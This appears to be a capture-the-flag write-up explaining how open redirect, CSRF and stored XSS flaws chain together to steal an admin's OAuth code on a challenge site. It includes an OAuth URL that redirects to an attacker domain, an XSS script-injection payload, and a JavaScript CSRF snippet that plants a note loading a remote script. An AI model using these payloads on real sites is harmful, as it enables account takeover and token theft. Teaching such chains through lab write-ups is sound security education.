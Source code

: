 To be authenticated on journal.bitdizzle.xyz, the `/oauth_callback` endpoint must be accessed and a code provided. The journal server will then send a request to `https://accounts.bitdizzle.xyz/oauth_token`, and the accounts server will respond with what username (if any) is associated with the provided code.

To exploit the authentication system, all we need is an OAuth token for the `admin` user. The easiest way to do that is send the admin bot to the following URL - `https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fattacker.controller.domain%2Fadmin_oauth_token`. This would make the admin user automatically create an OAuth code to sign in and then send the admin to whatever URL we determine. If the URL is attacker-controlled (meaning we can see requests made to it), then we can capture the OAuth code and send it to the journal server, allowing us to be signed in as the admin user and see all the journal entries. 

Now, we run into a problem - a check is being done on the `redirect_uri` parameter that ensures the site starts with `https://journal.bitdizzle.xyz/`. If it only checked `https://journal.bitdizzle.xyz` (no `/`), then we could insert a URL like `https://journal.bitdizzle.xyz@attacker.controlled.domain/oauth_token`, and sent that link off. However, the extra `/` means the domain name is locked in, so we can't send it to our own domain. However, if we can somehow gain control of *any* page on the journals domain, we can steal the token.

### XSS
The last needed bug in the code was a stored XSS vulnerability. On line 44 of [journal.py](/static/asvctf-bitdizzle/src/journal.py), the note content is pasted directly into the HTML (a `<script>` tag specifically, which is already bad practice) as JSON, but without any filtering. This meant that creating a note like `</script><script>alert('Malicious JS here')</script>` would allow us to run any JavaScript code we wanted on the main page.

### Review of Chained Exploits
* [Open redirect](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html) - line 63 of [accounts.py](/static/asvctf-bitdizzle/src/accounts.py), we can send the OAuth token to *any* webpage on journal.bitdizzle.xyz
* [CSRF](https://portswigger.net/web-security/csrf) - no CSRF tokens are in place + most of the parameters are GET parameters, meaning anyone clicking a malicious URL could cause them to perform actions they don't intend
* [XSS](https://portswigger.net/web-security/cross-site-scripting) - line 44 of [journal.py](/static/asvctf-bitdizzle/src/journal.py), note content is directly pasted into the HTML, allowing an attacker to insert arbitrary HTML and JavaScript code

So the goal would be to chain those 3 exploits like so - we first (using CSRF) put a XSS payload in the admin's journal that will, when loaded in someone's browser, will send all GET parameters to an attacker-controlled domain (to steal the OAuth token), then we will have the admin bot create an OAuth token on accounts and set the `redirect_uri` parameter to the vulnerable page on journal.bitdizzle.xyz to trigger our XSS payload. Easy, right?

### Difficulty with CSRF
Journal entries are created by sending a POST request to `http://journal.bitdizzle.xyz/entries/`, with the JSON-formatted data. Normally, a cross-site POST request forgery can be achieved by sending the user to an attacker-controlled page that runs the following JavaScript:

```javascript
(async () => {
  const rawResponse = await fetch('https://journal.bitdizzle.xyz/entries/', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify(
        {
            title: "</script><script src='https://justinapplegate.me/test.js'>",
            body: "test2"
        }
    )
  });
})();
```